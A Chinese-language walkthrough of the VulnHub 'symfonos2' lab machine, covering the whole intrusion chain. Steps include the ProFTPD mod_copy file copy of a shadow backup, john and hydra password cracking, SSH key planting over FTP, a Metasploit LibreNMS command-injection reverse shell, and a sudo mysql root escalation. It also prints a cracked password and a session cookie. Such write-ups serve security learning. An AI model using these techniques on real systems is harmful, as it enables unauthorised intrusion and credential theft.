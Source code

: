 ```yaml
---
layout: post
title:  "symfonos2"
description: walkthrough
category: vulnhub
---
```

# symfonos2

![image-20200622214334864]({{ site.url }}/assets/symfonos2.assets/image-20200622214334864.png)

![image-20200622214517388]({{ site.url }}/assets/symfonos2.assets/image-20200622214517388.png)

```bash
enum4linux -a 192.168.43.83
```

![image-20200622214839554]({{ site.url }}/assets/symfonos2.assets/image-20200622214839554.png)

```bash
smbclient --no-pass //192.168.43.83/anonymous
```

免密连接一下

![image-20200622215016343]({{ site.url }}/assets/symfonos2.assets/image-20200622215016343.png)

查看下载好的log.txt

![image-20200623041203737]({{ site.url }}/assets/symfonos2.assets/image-20200623041203737.png)

得到用户名aeolus。

![image-20200622215855649]({{ site.url }}/assets/symfonos2.assets/image-20200622215855649.png)

ftp 是ProFTPD 1.3.5，是存在漏洞的，但是使用ftp命令是无法匿名登录的，我们尝试使用telnet

![image-20200623041747356]({{ site.url }}/assets/symfonos2.assets/image-20200623041747356.png)

成功匿名登录。利用ProFTPD 1.3.5已知漏洞将在log.txt中发现的被备份出来的shadow文件，复制到我们可以进行下载的smb目录

```bash
SITE CPFR /var/backups/shadow.bak
SITE CPTO /home/aeolus/share/shadow.bak
```

![image-20200623042122076]({{ site.url }}/assets/symfonos2.assets/image-20200623042122076.png)

这时再次免密登录smb，即可看到我们复制过去的shadow.bak

![image-20200623042217585]({{ site.url }}/assets/symfonos2.assets/image-20200623042217585.png)

下载到本地

![image-20200623042254178]({{ site.url }}/assets/symfonos2.assets/image-20200623042254178.png)

查看

![image-20200623073046951]({{ site.url }}/assets/symfonos2.assets/image-20200623073046951.png)

可以看到我们有root及两个额外的用户，拷贝副本，并编辑去掉无用的用户，以及由于是靶机所以我们不可能跑出来的root

![image-20200623074954130]({{ site.url }}/assets/symfonos2.assets/image-20200623074954130.png)

送入john进行破解

![image-20200623075503172]({{ site.url }}/assets/symfonos2.assets/image-20200623075503172.png)

第二种方法，这种要慢于本机使用john

可以尝试hydra破解aeolus的凭证

```bash
sudo hydra -l aeolus -P /usr/share/wordlists/rockyou.txt ssh://192.168.43.83 -t 4 -vV
```


![image-20200623022032522]({{ site.url }}/assets/symfonos2.assets/image-20200623022032522.png)

```bash
aeolus:sergioteamo
```

尝试登录ssh，发现ssh需要公钥。

![image-20200623025021683]({{ site.url }}/assets/symfonos2.assets/image-20200623025021683.png)

登录ftp，密码是复用的。

![image-20200623025106475]({{ site.url }}/assets/symfonos2.assets/image-20200623025106475.png)

查看了一下没有其他东西，文件内容和smb是一个。

首先伪造一套ssh密钥

![image-20200623033042558]({{ site.url }}/assets/symfonos2.assets/image-20200623033042558.png)

我们之前在log.txt中发现smb所进入的目录其真实路径为/home/aeolus/share，而由于其中内容backups与ftp内容一样，可以初步判断这是同一个文件夹。这样可以通过在ftp上传文件后，smb可以同步看到进行确认。



![image-20200623033736172]({{ site.url }}/assets/symfonos2.assets/image-20200623033736172.png)

登录ftp

![image-20200623040219885]({{ site.url }}/assets/symfonos2.assets/image-20200623040219885.png)

此时我们处于的目录应该是/home/aeolus，由于我们是使用aeolus用户登录的，故而，我们对这个目录具有可写权限。

新建.ssh目录，可以通过回显看到我们确实是在正确的目录中。上传我们伪造的ssh公钥。

![image-20200623040425082]({{ site.url }}/assets/symfonos2.assets/image-20200623040425082.png)

此时再次登录ssh并使用我们刚才的id_rsa密钥文件，即可登录ssh

```bash
ssh -i id_rsa aeolus@192.168.43.83
```

![image-20200623040710594]({{ site.url }}/assets/symfonos2.assets/image-20200623040710594.png)



上传linpeas和LinEnum到tmp文件夹做一些基础的枚举

![image-20200623080610926]({{ site.url }}/assets/symfonos2.assets/image-20200623080610926.png)

![image-20200623081749087]({{ site.url }}/assets/symfonos2.assets/image-20200623081749087.png)

在LinEnum的枚举结果中我们注意到用户cronus有运行apache

![image-20200623081917100]({{ site.url }}/assets/symfonos2.assets/image-20200623081917100.png)

并且监听了8080

![image-20200623082006941]({{ site.url }}/assets/symfonos2.assets/image-20200623082006941.png)

来查看一下，目标可以使用curl，用curl查看一下

![image-20200623082505288]({{ site.url }}/assets/symfonos2.assets/image-20200623082505288.png)

确实有一个服务，并且应该是一个登录界面

![image-20200623082605130]({{ site.url }}/assets/symfonos2.assets/image-20200623082605130.png)

我们现在将做一个端口转发，将内部的8080转发到外部，以方便我们进行下一步测试。

```bash
ssh -L 8080:localhost:8080 aeolus@192.168.1.124
```

![image-20200623083648300]({{ site.url }}/assets/symfonos2.assets/image-20200623083648300.png)

这是在kali端浏览本地8080端口，就是目标机器的8080端口。

![image-20200623083631386]({{ site.url }}/assets/symfonos2.assets/image-20200623083631386.png)

libreNMS

![image-20200623090233385]({{ site.url }}/assets/symfonos2.assets/image-20200623090233385.png)

![image-20200623090252729]({{ site.url }}/assets/symfonos2.assets/image-20200623090252729.png)

需要cookie，仔细看看标题是已认证登录之后才能执行远程命令执行。

尝试密码复用，成功

![image-20200623100429737]({{ site.url }}/assets/symfonos2.assets/image-20200623100429737.png)

复制cookie，使用cookie quick manager插件

![image-20200623100545573]({{ site.url }}/assets/symfonos2.assets/image-20200623100545573.png)

前两个都是登录之前的从cookie值，librenms_session则是登录后的cookie值

```bash
librenms_session=eyJpdiI6IlFzMlpSVXRsRkZLM3JwbWgxT0VyZ3c9PSIsInZhbHVlIjoidkl2Tkw2Z0RRaGZrVEQwVENXZkdldXd2cmVNcTVHS3kzQngrdEpjdlI4aVh0OUZ3YkdmeDBHSmt4THFQZXpiTjIxWXZlNldTTXBoa2Vjeit1Zzg4WUE9PSIsIm1hYyI6Ijc0NTUzOTdlMDNmMDhlZmY4ZGVjNzM0Y2M2MGM1OGNmNzhiYmFmYzA3NGVlNWFkMjM2MWZkYTRkM2U4ZDYwNjIifQ%3D%3D
```

构建漏洞利用执行语句
尝试手动利用失败，无法得到shell

利用msf

![image-20200623114419788]({{ site.url }}/assets/symfonos2.assets/image-20200623114419788.png)


```bash
search libre
use exploit/linux/http/librenms_addhost_cmd_inject
set rhosts 127.0.0.1
set rport 8080
set lhost 192.168.1.108
set username aeolus
set password sergioteamo
exploit
```

![image-20200623115903113]({{ site.url }}/assets/symfonos2.assets/image-20200623115903113.png)

![image-20200623120205619]({{ site.url }}/assets/symfonos2.assets/image-20200623120205619.png)

```bash
sudo /usr/bin/mysql -e '\! /bin/sh'
```

![image-20200623120333783]({{ site.url }}/assets/symfonos2.assets/image-20200623120333783.png)

